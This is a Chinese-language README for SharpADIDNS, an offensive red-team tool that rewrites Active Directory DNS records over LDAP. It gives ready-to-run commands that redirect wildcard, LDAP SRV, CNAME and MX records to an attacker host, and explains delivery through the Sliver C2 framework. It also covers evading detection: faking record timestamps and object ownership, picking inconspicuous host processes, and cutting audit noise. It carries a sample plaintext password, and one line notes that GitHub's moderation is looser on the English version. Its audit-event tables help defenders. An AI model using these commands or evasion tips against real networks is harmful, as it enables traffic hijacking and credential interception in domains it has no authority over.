

# SharpADIDNS

**语言**: [English](README.md) | **中文** | [Français](README.fr.md)


<p>
一款用于通过 LDAP 读取和修改微软活动目录集成DNS（ADIDNS）记录的 C# 命令行工具，面向严肃的红队行动构建，并内置一系列专为 Sliver C2 <code>execute-assembly</code> 执行场景定制的技战术功能。
</p>

<p>
  
  
  
</p>

<p>
面向严肃红队使用场景构建：原生支持 Sliver <code>execute-assembly</code> 模式 <code>--c2</code>；支持 <code>--dry-run</code> 预执行检查，并配合结构化 <code>--backup-to</code> 回滚备份；支持批量脚本执行 <code>--script</code>；支持带跨次调用 <code>correlation_id</code> 的 JSON 回执；并提供主动指纹缓解能力。<code>--mimic-aging</code> 可规避 <code>Timestamp=0</code> 这一 IOC，<code>--set-owner</code> 可伪装对象所有权，<code>--require-pdc</code> 可确保写入操作不会落到非 PDC 副本上。
</p>

<p>
基于 <code>System.DirectoryServices</code> 构建，目标运行环境为 .NET Framework 4.x，并生成体积较小的独立 <code>.exe</code> 文件。适用于经授权的红队行动、渗透测试项目以及实验室研究场景。
</p>

<p>
强烈建议阅读[English](README.md)版本，表意更准确，Github审计策略更宽松。
</p>

<br clear="right">



<br clear="right">

## 主要功能

| 动作  | 说明 |
| ------- | ----------- |
| enum    | 列出某 zone 下所有 `dnsNode`，给出类型与值的摘要 |
| query   | 读取单个节点，详细解码每条 `dnsRecord` blob，并给出所有者 + DACL 摘要 |
| add     | 创建或更新一条记录（A、AAAA、CNAME、TXT、PTR、SRV、MX，或原始 blob） |
| disable | 给节点打 tombstone（软删除；对象仍留在 AD） |
| remove  | 硬删除 `dnsNode` 对象 |
| list-zones | 跨三个分区（DomainDnsZones / ForestDnsZones / System）枚举 `dnsZone` 对象 |

记录构造遵循 [MS-DNSP] 中的 `DNS_RPC_RECORD` 结构，以及 CNAME / PTR / NS 使用的 `DNS_COUNT_NAME` 标签编码。

## 编译

需要 .NET Framework 4.x。从 Developer Command Prompt 或直接指向 `csc.exe`：

```
csc /optimize+ /r:System.DirectoryServices.dll /out:SharpADIDNS.exe SharpADIDNS.cs
```

`csc.exe` 是 Windows 自带组件，位于：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe
```

无第三方依赖。

**预编译二进制**：可从 [Releases 页面](https://github.com/RedteamNotes/SharpADIDNS/releases/latest) 下载 `SharpADIDNS.exe`（CI 在每次打 tag 时自动构建并 attach 新版本）。源码编译参见上方 `csc` 命令。`release/` 目录不纳入版本控制。

**端到端场景**：详见 [`docs/RECIPES.zh-CN.md`](docs/RECIPES.zh-CN.md)（环境侦察、单记录写入与回滚、`--mimic-aging` + `--set-owner` 的低噪写入、通配符写入、SRV 追加、批处理、环境收尾、DACL 预检）。本 README 是参考手册（讲"每个 flag 干嘛"），recipes 讲"某种场景的完整流程"。

### 测试

单元测试覆盖纯函数（不需要真实 AD）：`Bin` endian helper、`DnsRecord` 构造与解码、`DNS_COUNT_NAME` 边界情形、tombstone FILETIME、`Json.Escape`。编译并运行：

```
csc /main:TestRunner /r:System.DirectoryServices.dll /out:tests\Tests.exe tests\Tests.cs SharpADIDNS.cs
tests\Tests.exe
```

通过 exit 0，失败 exit 1。`tests/Tests.exe` 二进制由 git 忽略。

## 用法

```
SharpADIDNS.exe <action> [options]
```

### 目标定位

| 选项 | 说明 |
| ------ | ----------- |
| `--zone <fqdn>`       | DNS zone，如 `redteamnotes.local`（必填） |
| `--name <label>`      | 记录名；`@` = apex，`*` = 通配符（除 `enum` 外必填） |
| `--dn <DN>`    | 命名上下文，如 `DC=redteamnotes,DC=local`（必填） |
| `--partition <name>`  | `DomainDnsZones`（默认）/ `ForestDnsZones` / `System` |
| `--server <host>`     | 目标 DC FQDN 或 IP。省略则走 serverless 绑定。 |

### 记录数据（仅 `add`）

| 选项 | 说明 |
| ------ | ----------- |
| `--type <T>`        | `A` / `AAAA` / `CNAME` / `TXT` / `PTR` / `SRV` / `MX`（默认 `A`） |
| `--data <value>`    | A/AAAA 用 IP；CNAME/PTR/SRV 用目标 FQDN；MX 用 exchange FQDN；TXT 用 ASCII（≤255 字节）。别名 `--ip`。 |
| `--srv-priority <N>`| SRV priority，0..65535（默认 0） |
| `--srv-weight <N>`  | SRV weight，0..65535（默认 0） |
| `--srv-port <N>`    | SRV port，0..65535（`--type SRV` 时**必填**） |
| `--mx-pref <N>`     | MX preference，0..65535（默认 10） |
| `--raw <base64>`    | 预构造好的 `dnsRecord` blob；跳过 `--type` / `--data` 和 SRV/MX 相关 flag |
| `--ttl <sec>`       | 1..604800（默认 600） |
| `--force`           | 替换节点上同类型的记录。该节点其他类型的记录保留。 |
| `--append`          | 保留节点上**全部**已有记录并追加一条。与 `--force` 互斥。对 tombstoned 节点拒绝执行 — 解 tombstone 必须用 `--force`。 |

### 认证

| 选项 | 说明 |
| ------ | ----------- |
| `--username <user>`          | UPN 或 `DOMAIN\user`。默认走当前进程 token。 |
| `--password <pwd>`           | 明文密码。进程列表、Sysmon EID 1、shell history 全部能看到；除非同时指定 `--allow-cleartext-password` 否则会打印告警。 |
| `--password-stdin`           | 从 stdin 读取密码（一行）。 |
| `--password-env <VAR>`       | 从指定环境变量读取密码。 |
| `--password-base64 <b64>`    | UTF-8 密码的 base64 编码。当密码中含 `'`、`"`、`$`、空格或其它 shell 不友好字符时尤其有用 — 能干净穿过多层解析（如 Sliver `execute-assembly`）。 |
| `--allow-cleartext-password` | 静默 `--password` 的明文告警。 |
| `--ldaps`                    | 走 LDAPS（636 端口）绑定。 |

如果只给了 `--username` 但没给任何密码源，会交互式提示输入密码（不回显）。如果 stdin 被重定向（CI、脚本 pipe），程序会以 usage code 1 退出而不是静默等待。

### 安全

| 选项 | 说明 |
| ------ | ----------- |
| `--dry-run`          | 用于 `add` / `disable` / `remove`：绑定到 AD（只读），打印将要写入的 DN、新 blob、与现有记录的差异。**不实际写入**。提交修改前的验证利器。 |
| `--backup-to <file\|->` | 在修改节点（`add --force`、`add --append`、`disable`、`remove`）前，先追加一行 JSON 记录现状。`<file>`：追加到该文件（跨次累积）。`-`（哨兵）：写到 stdout 而非磁盘 — 不留磁盘痕迹，适合通过 Sliver `execute-assembly` 内存执行的场景。每行字段：`_type:"backup"`、`timestamp`（UTC ISO 8601）、`action`、`dn`、`dNSTombstoned`、`records`（base64 编码的 `dnsRecord` blob 数组）。在 `--format json` 模式下，动作 receipt 自身已含 `previous_state`，因此 `--backup-to -` 被抑制以避免 stdout 重复输出。 |
| `-y`, `--yes`        | 跳过高风险操作的交互确认（见下方清单）。stdin 不是 TTY 时（CI / 脚本 pipe）必须显式给 — 否则高风险操作拒绝执行。 |
| `--show-pdc`         | 执行动作前查询并打印 PDC emulator 主机名。 |
| `--require-pdc`      | 除非 `--server` 匹配 PDC emulator 主机名否则报错（大小写不敏感；也接受首段 DNS label 匹配）。避免写到非 PDC 副本 — 那种写入要数分钟才复制完，而且会在 `replPropertyMetaData` 里留下非 PDC 的 DSA 痕迹。 |

从备份文件恢复：把对应的 base64 blob 通过管道 pipe 给 `add --raw <base64> --force`。每行独立自描述。

**高风险触发器**（会要求确认，或必须 `--yes`）：

- 任何 `remove` — 硬删除 `dnsNode` 对象
- `add --name "*"` — 通配符覆盖该 zone 中所有未解析名称的解析结果
- `add --name wpad` / `add --name isatap` — GQBL 监控名，MDI / SIEM 默认高优先级告警
- `add --force` 操作 `dNSTombstoned=TRUE` 的节点 — 解 tombstone 是已知 ADIDNS 异常 IOC

### 枚举过滤（仅 `enum`）

| 选项 | 说明 |
| ------ | ----------- |
| `--filter-type <T,...>` | 类型逗号列表，或多次重复（`--filter-type A --filter-type AAAA` 等价于 `--filter-type A,AAAA`）。展示**至少含一条**这些类型记录的节点。接受：`A`、`AAAA`、`CNAME`、`PTR`、`SRV`、`MX`、`TXT`、`NS`、`SOA`、`TS`（tombstone）。 |
| `--filter-name <glob>`  | 匹配节点名（大小写不敏感）。支持 `*` 和 `?` 通配符。例：`sql*`、`_*._tcp.*`、`?pad`。 |
| `--only-tombstoned`     | 只显示 tombstoned 节点。 |
| `--no-tombstoned`       | 隐藏 tombstoned 节点（仅活跃）。 |

`--only-tombstoned` 与 `--no-tombstoned` 互斥。所有过滤器都在 LDAP fetch 之后的客户端侧执行。

### 输出

| 选项 | 说明 |
| ------ | ----------- |
| `-v`, `--verbose`        | 打印 DN、原始 blob、bind 细节 |
| `-q`, `--quiet`          | 抑制 `[*]` info 行 |
| `--format <text\|json>`  | `enum` / `query` / `list-zones` 的输出格式（默认 `text`）。JSON 为单行，适合 `jq` 管道。 |
| `--color` / `--no-color` | 强制启用或禁用 ANSI 颜色（默认自动探测 TTY）。 |
| `-h`, `--help`           | 显示完整帮助 |
| `-V`, `--version`        | 打印版本并退出 |

### 参数文件

任何以 `@` 开头的参数会被当作文件路径，其内容会被插入到参数流中。按空白切 token；以 `#` 起始的行是注释。适合把重复的长定位 flag 抽出来：

```
# common.args
--zone redteamnotes.local
--dn   DC=redteamnotes,DC=local
--server dc.redteamnotes.local
```

```bash
SharpADIDNS.exe enum @common.args
SharpADIDNS.exe query @common.args --name sccm
```

### Flag 语法

接受 `--flag value`（空格）和 `--flag=value`（等号）两种形式。等号形式只在首个 `=` 处切分，所以带 `=` 的值（base64 的 `==` 填充、DN 字符串如 `DC=redteamnotes,DC=local`）能完整保留。适合穿过多层 shell 解析（如 Sliver `execute-assembly`）— 那种场景下空格处理脆弱。

### 按动词的子帮助

`SharpADIDNS.exe <verb> --help`（例 `add --help`、`enum --help`）打印该动词专属 USAGE 行和相关章节（`add` 显示 RECORD DATA；`enum` 显示 ENUM FILTERS；`list-zones` 都不显示）。不带 verb 的 `--help` 打印完整参考。

### 退出码

| 码 | 含义 |
| ---- | ------- |
| 0 | 成功 |
| 1 | 用法 / 参数错误 |
| 2 | LDAP / AD 操作失败（stderr 中 `ExtendedError`） |
| 3 | 目标对象未找到 |
| 4 | 拒绝访问 |

## 示例

枚举某 zone 的所有节点：

```bash
SharpADIDNS.exe enum \
    --zone redteamnotes.local \
    --dn DC=redteamnotes,DC=local \
    --server dc.redteamnotes.local
```

枚举所有分区中的全部 DNS zone（无须 `--zone`）：

```bash
SharpADIDNS.exe list-zones \
    --dn DC=redteamnotes,DC=local \
    --server dc.redteamnotes.local
```

读取单条记录并解码该节点上的全部 blob：

```bash
SharpADIDNS.exe query \
    --zone redteamnotes.local \
    --name sccm \
    --dn DC=redteamnotes,DC=local
```

写入通配符 A 记录（覆盖未解析名称的解析结果）：

```bash
SharpADIDNS.exe add \
    --zone redteamnotes.local \
    --name "*" \
    --type A \
    --data 10.0.0.66 \
    --ttl 600 \
    --dn DC=redteamnotes,DC=local
```

用显式凭据通过 LDAPS 添加 AAAA 记录：

```bash
SharpADIDNS.exe add \
    --zone redteamnotes.local \
    --name web \
    --type AAAA \
    --data fe80::1 \
    --dn DC=redteamnotes,DC=local \
    --server dc.redteamnotes.local \
    --username 'redteamnotes\redpen' \
    --password 'RedteamN0t3s.' \
    --ldaps
```

添加 CNAME（配合 `--force` 时，保留同节点上已有的 A/AAAA）：

```bash
SharpADIDNS.exe add \
    --zone redteamnotes.local \
    --name printer \
    --type CNAME \
    --data attacker.redteamnotes.local \
    --dn DC=redteamnotes,DC=local \
    --force
```

替换 LDAP `SRV` 记录的目标主机：

```bash
SharpADIDNS.exe add \
    --zone redteamnotes.local \
    --name _ldap._tcp.dc._msdcs \
    --type SRV \
    --srv-priority 0 --srv-weight 100 --srv-port 389 \
    --data attacker.redteamnotes.local \
    --dn DC=redteamnotes,DC=local \
    --force
```

添加 `MX` 记录：

```bash
SharpADIDNS.exe add \
    --zone redteamnotes.local \
    --name '@' \
    --type MX \
    --mx-pref 10 \
    --data mail.attacker.redteamnotes.local \
    --dn DC=redteamnotes,DC=local \
    --force
```

在反向 zone 中添加 `PTR` 记录：

```bash
SharpADIDNS.exe add \
    --zone 0.0.10.in-addr.arpa \
    --name 66 \
    --type PTR \
    --data attacker.redteamnotes.local \
    --dn DC=redteamnotes,DC=local
```

打 tombstone 而不是硬删除：

```bash
SharpADIDNS.exe disable \
    --zone redteamnotes.local \
    --name wpad \
    --dn DC=redteamnotes,DC=local
```

写入预构造的记录（非标准类型或复现场景）：

```bash
SharpADIDNS.exe add \
    --zone redteamnotes.local \
    --name custom \
    --raw BASE64_DNSRECORD_BLOB \
    --dn DC=redteamnotes,DC=local \
    --force
```

## 注意事项

- 默认情况下，任何已认证域用户都可以创建新的 `dnsNode` 对象。已存在节点的所有者是其创建者；修改或删除需要明确的 ACE（创建者本人、`DnsAdmins`、或委派的 ACL）。
- 自 Server 2008 起，`wpad` 与 `isatap` 被 DNS 服务器的全局查询屏蔽列表（GQBL）阻挡。记录会写入 AD，但 DNS 服务器拒绝应答。GQBL 是 DNS 服务器侧的注册表设置（`HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters\GlobalQueryBlockList`），LDAP 看不到。
- `disable` 比 `remove` 更温和：对象仍留在 AD，带 `dNSTombstoned=TRUE`，由 AD 在 `DsTombstoneInterval`（Server 2008+ 默认 14 天）后清理。日志面也更小（详见下方）。
- 通配符（`*`）记录会覆盖整个 zone 中所有未解析名称的解析结果。先跑 `enum` 确认你没有踩到合法数据。
- `--force` 只替换目标节点上**同类型**的记录；同节点其他类型记录保留。要全清，先 `disable` 或 `remove`。

## 审计可见性

把 AD 集成 DNS 通过 LDAP 写入，在审计视角看是什么样。写前用 `--dry-run` 预演，用 `--backup-to` 留回滚痕，能选时 `disable`（tombstone）优于 `remove`（硬删除）。

### Windows 事件日志

这些事件触发在**接收写操作的 DC** 上。需要启用 Directory Service Access 审计（默认关闭，但部署了 MDE / MDI / 成熟 EDR 的环境通常开了）。

| 事件 ID | 来源 | 触发条件 |
| -------- | ------ | ------------ |
| 5136 | Security | 修改 `dnsRecord` 或 `dNSTombstoned`（即 `add --force` 与 `disable` 路径） |
| 5137 | Security | 创建新 `dnsNode`（即 `add` 创建路径） |
| 5141 | Security | 删除 `dnsNode`（即 `remove` 路径） |
| 4662 | Security | zone 容器上的 DS-Access，受 SACL 门控；先于 5136/5137/5141 触发 |
| 4624 | Security | `--username` / `--password` 绑定时 DC 上的登录事件。用当前进程 token 时不会触发。 |

5137 事件含新节点的 RDN，所以 wildcard / `wpad` / `isatap` 单凭名字就显眼。

### Microsoft Defender for Identity

MDI 对 ADIDNS 异常活动有专门的检测族。每台 DC 上的传感器同时分析 LDAP 流量与 5136/5137/5141 事件流。本工具的操作可能触发的告警：

- **可疑 DNS 记录创建** — 新 `dnsNode` 的创建者不在服务 / 管理员组中，对 `wpad`、`isatap`、通配符尤其敏感。
- **可疑 DNS 属性修改** — 已有高价值节点上的 `dnsRecord` blob 变更。
- **使用 DNS 进行侦察** — 通过 LDAP 的批量枚举（不够特定，密集 `enum` 时触发）。

`--ldaps` **绕不过** MDI — 传感器通过本地 Schannel hook 读取已解密流量，并直接消费事件日志。

### 可预期的 SIEM 规则

Sentinel / Splunk 内容包常含以下规则，本工具会触发：

- `EventID == 5137 AND ObjectClass == dnsNode`（任何新 dnsNode）。
- `EventID == 5136 AND AttributeLDAPDisplayName IN (dnsRecord, dNSTombstoned)` 并且 `OperationType == "Value Added"`。
- 上述事件的发起者不在 `Domain Admins` / `DnsAdmins` / `Enterprise Admins`。
- 新建 dnsNode 的 RDN 匹配 `wpad|isatap|\*|localhost`。

### 对象自身的异常特征

| 属性 | 为何会被关注 |
| --------- | ----------------- |
| `dNSTombstoned=TRUE` 变 `FALSE`（un-tombstone） | 几乎没有合法路径 — AD 清理流程是唯一常见的 TRUE 设置路径。除非给 `--yes`，工具会在此情形提示确认。 |
| 动态更新 zone 中出现 `Timestamp=0`（静态）的 `dnsRecord` blob | DDNS 客户端始终写 `Timestamp != 0`；裸 LDAP 写默认 `0`。 |
| 异常 TTL（无端低于 60s 或高于 1d） | 防守方会对每个 zone 的典型 TTL 建立画像。 |
| 节点的 `whenChanged` 异常 — 此前只走过 DDNS 驱动的变更 | DDNS 走 `secureUpdateAllowed`；裸 LDAP 写直接更新 `whenChanged`。 |
| `dnsNode` 的 owner SID 不是原创建者也不是特权组 | 可在 `nTSecurityDescriptor` 看到。`query` 动作未来版本会显式展示。 |

### 复制

`dnsRecord` 属性在 `DomainDnsZones`（或按 `--partition` 在 `ForestDnsZones` / `System`）的所有 DC 间复制。`replPropertyMetaData` 记录起源 DSA 与时间戳 — 如果你写到非 PDC DC，元数据里出现的就是那个 DSA，而非 PDC。复制可能要几分钟；跨 DC 关联日志的运维或防守方会注意到延迟。

### 降低审计噪声

如果你的运维场景希望尽量少触发监控告警，下面这些选择有帮助：

- 优先 `disable`（无 5141 删除事件，`replPropertyMetaData` 无 delete 痕迹）。
- 优先当前进程 token，不要 `--username` / `--password`（DC 上不产生 4624 登录峰值）。
- 每次写之前用 `--dry-run` — 不要"生产上试错"。
- 用 `--backup-to`，被发现的变更可不重新绑定即时回滚。
- 选与 zone 现有运维命名风格一致的名字。`wpad` / 通配符 / 极短名都很扎眼。
- TTL 跟周边记录一致（先 `enum`）。

## 通过 Sliver `execute-assembly` 使用

这是本工具的主部署路径之一。Sliver 通过 CLR 反射把 assembly 加载进宿主进程，内存中执行 `Main`，stdout/stderr 回流给操作员。它的运行环境约束与本地 shell 调用**不同** — 一些本地场景的默认行为不适用，同时出现新的约束。

### 推荐调用

传 `--c2` 和 `--password-base64`，其他与本地调用一致：

```bash
# 操作员侧：把密码 base64 编一次
$ printf 'RedteamN0t3s.' | base64
UmVkdGVhbU4wdDNzLg==

# Sliver 控制台中：
sliver > execute-assembly SharpADIDNS.exe -p dllhost.exe -- \
    add \
        --c2 \
        --username 'redteamnotes\redpen' \
        --password-base64 UmVkdGVhbU4wdDNzLg== \
        --zone redteamnotes.local --dn DC=redteamnotes,DC=local --server dc.redteamnotes.local \
        --name sccm --type A --data 10.0.0.66
```

`--c2` 一次性切到一组连贯的默认值（无 FUD 告警、无提示、无颜色、quiet、`--format json`、`--backup-to -` 到 stdout）。密码含 `'`、`"`、`$` 或空格时，能干净穿过 Sliver 多层命令解析的密码源只有 `--password-base64`。

### 回流的内容

stdout 一行 JSON（即 **receipt**），外加每个被备份节点一行 JSON（仅当 `--backup-to <file>` 指了真实路径时；`--c2` 默认的 `--backup-to -` 被抑制，因为 receipt 自身已带 `previous_state`）。

Receipt 结构：

```json
{
  "correlation_id": "uuid-shared-by-all-receipts-from-this-invocation",
  "action":         "add" | "disable" | "remove",
  "result":         "ok" | "would_do",   // "would_do" 用于 --dry-run
  "operation":      "create" | "replace" | "append",   // 仅 add
  "dn":             "DC=sccm,DC=...",
  "zone":           "redteamnotes.local",
  "name":           "sccm",
  "record":         { "type":"A", "type_id":1, "ttl":600, "timestamp":3727482, "ipv4":"10.0.0.66", "blob_base64":"..." },
  "previous_state": null | {
    "tombstoned":     false,
    "records_base64": ["...", "..."]
  },
  "reverse":        "SharpADIDNS.exe remove ..." | null
}
```

- `previous_state` 在 `add` 创建全新节点时为 `null`，其它情况下有值。
- `reverse` 是单条命令可表达时的一行式 undo（只有 `add` 创建场景）。replace / append / disable / remove 的 undo 是多步的（对 `previous_state.records_base64` 每条做一次 `add --raw <b64> --force`）；`reverse` 为 `null`，调用方自己迭代。
- `--dry-run` 下输出同样结构但 `result: "would_do"`，且省略 `set_owner`（没真跑 SetOwner）。用于预览写入。
- `correlation_id` 在同一次进程调用产生的所有 JSON 行上一致（动作 receipt、dry-run receipt、`query`/`enum`/`list-zones` 输出、`script_summary`、backup 行）。下游日志聚合按此分组。

### 从 receipt 恢复

```bash
# 从 receipt 的 previous_state.records_base64 取出每条 blob 恢复
sliver > execute-assembly SharpADIDNS.exe -p dllhost.exe -- \
    add \
        --c2 \
        --username 'redteamnotes\redpen' \
        --password-base64 UmVkdGVhbU4wdDNzLg== \
        --zone redteamnotes.local --dn DC=redteamnotes,DC=local --server dc.redteamnotes.local \
        --name sccm \
        --raw <base64-from-previous_state> --force
```

### 牺牲进程的选择

避免用 `notepad.exe` — `notepad.exe` 向 DC 发 LDAP 查询是软异常，部分 SIEM 规则会告警。优先选合法会发 LDAP 流量或本身网络活跃不显眼的进程：

- `dllhost.exe` — 通用、常见，会发各种 RPC / 网络调用
- `svchost.exe` — 通常太受限，除非你自己起服务
- `RuntimeBroker.exe` — 现代 Windows，网络活跃
- `services.exe` — 需要 SYSTEM，但合法的 LDAP 客户端

这是 Sliver 侧的旋钮（`execute-assembly -p <process.exe>`），不是 SharpADIDNS 的特性。

### `--c2` **不**改变的事

- **DC 侧审计事件照常触发**（5136 / 5137 / 5141 / 4662）。见上方"审计可见性"。`--c2` 只优化调用侧体验与痕迹，与 DC 侧审计无关。
- **Microsoft Defender for Identity** 传感器照样能看到 LDAP 流量。`--ldaps` 也藏不住。
- **依然建议 `--dry-run`**：先 `--dry-run --c2` 跑一次看计划写入的 blob，再去掉 `--dry-run` 提交。同一套认证流程，dry-run 那次零 AD 写入。

### 陷阱

- **stdin 源不工作**：Sliver `execute-assembly` 不把 stdin pipe 给 assembly。`--password-stdin` 和交互自动提示都会因 `Console.IsInputRedirected == true` 失败。改用 `--password-base64`。
- **`--password-env <VAR>` 通常无效**：宿主进程的环境继承自 Sliver beacon，不是操作员 shell。你得先在 beacon 里设环境变量，比 `--password-base64` 麻烦。
- **`@argfile.txt`** 假设文件在*目标*主机上存在。远程装载场景下没什么用，除非你已经投递过文件（那本身就是个文件落盘痕迹）。
- **`--backup-to <file>`**（指真实路径，不是 `-`）写在宿主进程的 CWD 下，常是 `C:\Windows\System32`。进程退出后文件残留。用 `--backup-to -` 或直接靠 receipt 自带的 `previous_state`。

### 批处理模式（`--script`）

单次 `execute-assembly` 跑多条动作。语句以 `;` 分隔；每条语句是一个标准的动作动词加自己的 flag，叠在外层 flag（充当默认值）之上。

```bash
sliver > execute-assembly SharpADIDNS.exe -p dllhost.exe -- \
    --c2 \
    --username 'redteamnotes\redpen' \
    --password-base64 UmVkdGVhbU4wdDNzLg== \
    --zone redteamnotes.local --dn DC=redteamnotes,DC=local --server dc.redteamnotes.local \
    --script "
        enum;
        add --name sccm --type A --data 10.0.0.66 --mimic-aging;
        query --name sccm;
        disable --name old-host
    "
```

stdout 按顺序每条语句一行 receipt JSON，最后一行 summary：

```json
{"_type":"script_summary","total":4,"succeeded":4,"failed":0,"on_error":"halt"}
```

**为何对调用噪声有意义**：每次 `execute-assembly` 都会拉起宿主进程（Sysmon EID 1）并加载 CLR（.NET ETW 噪声）。N 条动作分 N 次跑是 N 次拉起；走 `--script` 是**一次**。进程审计与进程树审查都更安静。

`--script-on-error halt`（默认）首个失败即停。`--script-on-error continue`（或别名 `--continue-on-error`）继续跑，并在 summary 里报总数。

按动作作用域的 flag（`--name`、`--data`、`--raw`、`--force`、`--append`、`--mimic-aging`、`--set-owner`、`--type`、`--srv-*`、`--mx-pref`、`--filter-*`、`--only-tombstoned`、`--no-tombstoned`）在每条语句之间会**重置** — 不会跨语句串味。定位和认证类 flag（`--zone`、`--dn`、`--server`、`--username`、`--password*`、`--ldaps`、`--partition`）从外层继承，可被单条语句覆盖。

## 记录格式参考

每条 `dnsRecord` 值都是一个 `DNS_RPC_RECORD` blob：

```
offset  size  field
0       2     DataLength       (little-endian)
2       2     Type             (little-endian)
4       1     Version          (= 0x05)
5       1     Rank             (0xF0 = DNS_RANK_ZONE for AD-integrated)
6       2     Flags            (little-endian)
8       4     Serial           (little-endian)
12      4     TTL              (BIG-endian)
16      4     Reserved
20      4     Timestamp        (hours since 1601-01-01; 0 = static)
24      N     Type-specific data
```

类型专属数据：

- A (1)：4 字节 IPv4
- AAAA (28)：16 字节 IPv6
- CNAME (5) / PTR (12) / NS (2)：`DNS_COUNT_NAME`
- TXT (16)：长度前缀的 ASCII 字符串（可多段）
- TS (0, tombstone)：8 字节 `EntombedTime` FILETIME（little-endian）

`foo.bar.example` 的 `DNS_COUNT_NAME`：

```
[0x11][0x03][0x03]foo[0x03]bar[0x07]example[0x00]
  ^     ^
  |     LabelCount (3)
  cchNameLength (17 = 标签数据含末尾 0x00 字节)
```

## 免责声明

仅供授权研究、实验环境与运维测试使用。作者不对滥用承担任何责任。
